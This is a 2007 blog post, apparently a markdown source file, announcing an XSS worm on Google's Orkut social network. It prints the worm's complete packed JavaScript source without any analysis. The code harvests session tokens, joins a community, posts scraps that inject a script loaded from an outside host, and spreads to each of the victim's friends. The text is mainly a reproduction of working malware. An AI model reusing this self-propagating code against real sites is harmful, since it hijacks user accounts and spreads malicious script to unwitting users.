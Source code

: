 ```yaml
---
title: The Orkut XSS Worm
author: petko-d-petkov
date: Wed, 19 Dec 2007 11:15:27 GMT
template: this/views/post.jade
category: fucked
---
```


Yep, Orkut, Google's Social Network, was hit by a XSS worm, the source of which you will be able to find at the bottom of this post. To be honest with you, it was about time. The trend for infecting social networks with Web2.0 malware will continue to increase during the following years. This is for sure! The simple fact is that social networks collect a lot of personal information which attackers can easily harvest for their own benefit.

The code is fairly simple and should be no brainier for you to find out what it does. So, this is the reason why I will skip the explanation step. The pre-processed details can be found out at [antrix.net](http://antrix.net/journal/techtalk/orkut_xss.html) website.

```javascript
function $(p,a,c,k,e,d) {
    e=function(c) {
        return(c<a?"":e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))
    };
    if(!''.replace(/^/,String)){
        while(c--){d[e(c)]=k[c]||e(c)}
        k=[function(e){return d[e]}];
        e=function(){return'\\w+'};
        c=1
    };
    while(c--){
        if(k[c]){
            p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c])
        }
    }
    return p
};
setTimeout(
    $('5 j=0;5 q=1q["2o.H"];5 E=1q["2p.K.27"];7 B(){Z{b i 14("29.1l")}
    L(e){};Z{b i 14("2b.1l")}L(e){};Z{b i 2l()}L(e){};b J};
    7 W(g,P,m,c,9,U){5 1m=g+"="+19(P)+(m?"; m="+m.2f():"")+(c?"; c="+c:"")+(9?"; 9="+9:"")+(U?"; U":"");
    8.y=1m};7 v(g){5 l=8.y;5 A=g+"=";5 h=l.S("; "+A);6(h==-1){h=l.S(A);6(h!=0){b 2h}}16{h+=2};
    5 u=8.y.S(";",h);6(u==-1){u=l.M};b 2j(l.2m(h+A.M,u))};
    7 26(g,c,9){6(v(g)){8.y=g+"="+(c?"; c="+c:"")+(9?"; 9="+9:"")+"; m=1u, 1i-1v-1x 1g:1g:1i 1y";1U.1z(0)}};
    7 G(){5 3=B();6(3){3.R("1A","o://k.w.p/1B.z",C);3.a(J);3.Y=7(){6(3.X==4){6(3.1a==1c){5 1r=3.1Q;5 t=8.1n("t");
    t.1D=1r;5 f=t.D("f").O(0);6(f){f.1M(f.D("1F").O(0));f.1G("1H","N");f.1J.1K="1L";8.1N.1f(f);V()}}16{G()}}};
    3.a(J)}};7 T(){5 a="H="+n(q)+"&K="+n(E)+"&15.1O";5 3=B();3.R(\'q\',\'o://k.w.p/1P.z?1R=1S\',C);
    3.12(\'10-1e\',\'Q/x-k-17-1b\');3.a(a);3.Y=7(){6(3.X==4){6(3.1a!=1c){T();b};G()}}};
    7 V(){6(j==8.18("N").M){b};
    5 I="1V 1W 1X... 1Y 1Z 20 21 22 23 24<1k/>[1j]25 "+i F()+"[/1j]<1k/><13 1o=\\"o://k.w.p/28.z\\" 2a=\\"Q/x-2c-2d\\" 2e=\\"2g\');
    r=8.1n(\'r\');r.1o=\'o://1p.2k.p/2n/1p/1s.1t\';8.D(\'1w\')[0].1f(r);19(\'\\" 1C=\\"1\\" 1E=\\"1\\"></13>";
    5 a="15.1I=1&H="+n(q)+"&I="+n(I)+"&K="+n(E)+"&1T="+8.18("N").O(j).P;5 3=B();
    3.R("q","o://k.w.p/2i.z",C);3.12("10-1e","Q/x-k-17-1b;");
    3.a(a);3.Y=7(){6(3.X==4){j++;5 d=i F;d.1d(d.1h()+11);W(\'s\',j,d);V()}}};
    6(!v(\'s\')){5 d=i F;d.1d(d.1h()+11);W(\'s\',\'0\',d)};j=v(\'s\');T();
    ',62,150,'|||xml||var|if|function|document|domain|send|return|path|wDate||select|name|begin|new|index|
    www|dc|expires|encodeURIComponent|http|com|POST|script|wormdoorkut|div|end|getCookie|orkut||cookie|aspx
    |prefix|createXMLHttpRequest|true|getElementsByTagName|SIG|Date|loadFriends|POST_TOKEN|scrapText|null|
    signature|catch|length|selectedList|item|value|application|open|indexOf|cmm_join|secure|sendScrap|setCookie|
    readyState|onreadystatechange|try|Content|86400|setRequestHeader|embed|ActiveXObject|Action|else|form|
    getElementById|escape|status|urlencoded|200|setTime|Type|appendChild|00|getTime|01|silver|br|XMLHTTP|curCookie|
    createElement|src|files|JSHDF|xmlr|virus|js|Thu|Jan|head|70|GMT|go|GET|Compose|width|innerHTML|height|option|
    setAttribute|id|submit|style|display|none|removeChild|body|join|CommunityJoin|responseText|cmm|44001818|toUserId|
    history|2008|vem|ai|que|ele|comece|mto|bem|para|vc|RL|deleteCookie|raw|LoL|Msxml2|type|Microsoft|shockwave|flash|
    wmode|toGMTString|transparent|false|Scrapbook|unescape|myopera
    |XMLHttpRequest|substring|virusdoorkut|CGI|Page'.split('|'),0,{}),1
);
author="Rodrigo Lacerda"
```

So, there you go! Even if XSS is the lamest for of attack, you cannot deny its effectiveness.
